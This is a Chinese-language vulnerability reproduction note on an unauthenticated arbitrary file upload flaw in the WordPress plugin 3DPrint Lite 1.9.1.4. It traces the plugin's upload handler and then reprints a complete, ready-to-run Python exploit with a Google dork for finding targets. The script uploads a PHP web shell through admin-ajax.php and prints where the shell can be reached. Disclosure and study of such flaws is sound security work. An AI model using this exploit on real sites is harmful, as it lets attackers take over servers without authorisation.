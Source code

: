 # WordPress 3DPrint Lite 3dprint-lite-functions.php 任意文件上传漏洞

## 漏洞描述

WordPress 3DPrint Lite Version 1.9.1.4 版本 中的 3dprint-lite-functions.php 文件存在文件上传漏洞，攻击者通过构造请求包可以上传任意文件获取服务器权限

## 漏洞影响

<a-checkbox checked>3DPrint Lite Version 1.9.1.4 版本</a-checkbox></br>

## 插件名

<a-checkbox checked>3DPrint Lite</a-checkbox></br>

<a-checkbox checked>https://downloads.wordpress.org/plugin/3dprint-lite.1.9.1.4.zip</a-checkbox></br>

## 漏洞复现

首先看一下插件注册的接口

![image.png](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638590530183-dbba3790-04d8-4567-bf1e-2f49629a9911.png)

```php
if ( is_admin() ) {
	add_action( 'admin_enqueue_scripts', 'p3dlite_enqueue_scripts_backend' );
	add_action( 'wp_ajax_p3dlite_handle_upload', 'p3dlite_handle_upload' );
	add_action( 'wp_ajax_nopriv_p3dlite_handle_upload', 'p3dlite_handle_upload' );
	include 'includes/3dprint-lite-admin.php';
}
else {
	add_action( 'wp_enqueue_scripts', 'p3dlite_enqueue_scripts_frontend' );
	include 'includes/3dprint-lite-frontend.php';
}
```

跟踪 p3dlite_handle_upload 方法 `wp-content/plugins/3dprint-lite/includes/3dprint-lite-functions.php`

![image.png](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638590604840-080502a2-0606-483c-b620-88ced836df9f.png)

向下看可以看到一个标准的文件上传代码

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638590633929-99afa9bf-aff5-41b2-a6be-02f10da4a2d4.png)

通过调试可以找到上传路径 `/wp-content/uploads/p3d/`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638590688972-3b63dca0-8357-4456-8d6e-18bc21c476ac.png)

未授权调用 p3dlite_handle_upload 上传文件

```php
# Exploit Title: Wordpress Plugin 3DPrint Lite 1.9.1.4 - Arbitrary File Upload
# Google Dork: inurl:/wp-content/plugins/3dprint-lite/
# Date: 22/09/2021
# Exploit Author: spacehen
# Vendor Homepage: https://wordpress.org/plugins/3dprint-lite/
# Version: <= 1.9.1.4
# Tested on: Ubuntu 20.04.1

import os.path
from os import path
import json
import requests;
import sys

def print_banner():
	print("3DPrint Lite <= 1.9.1.4 - Arbitrary File Upload")
	print("Author -> spacehen (www.github.com/spacehen)")

def print_usage():
	print("Usage: python3 exploit.py [target url] [php file]")
	print("Ex: python3 exploit.py https://example.com ./shell.php")

def vuln_check(uri):
	response = requests.get(uri)
	raw = response.text
	if ("jsonrpc" in raw):
		return True;
	else:
		return False;

def main():

	print_banner()
	if(len(sys.argv) != 3):
		print_usage();
		sys.exit(1);

	base = sys.argv[1]
	file_path = sys.argv[2]

	ajax_action = 'p3dlite_handle_upload'
	admin = '/wp-admin/admin-ajax.php';

	uri = base + admin + '?action=' + ajax_action ;
	check = vuln_check(uri);

	if(check == False):
		print("(*) Target not vulnerable!");
		sys.exit(1)

	if( path.isfile(file_path) == False):
		print("(*) Invalid file!")
		sys.exit(1)

	files = {'file' : open(file_path)}
	print("Uploading Shell...");
	response = requests.post(uri, files=files)
	file_name = path.basename(file_path)
	if(file_name in response.text):
		print("Shell Uploaded!")
		if(base[-1] != '/'):
			base += '/'
		print(base + "wp-content/uploads/p3d/" + file_name);
	else:
		print("Shell Upload Failed")
		sys.exit(1)

main();
            
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638590820680-20cfb3cc-d320-4ba0-9d47-59d36996ed9d.png)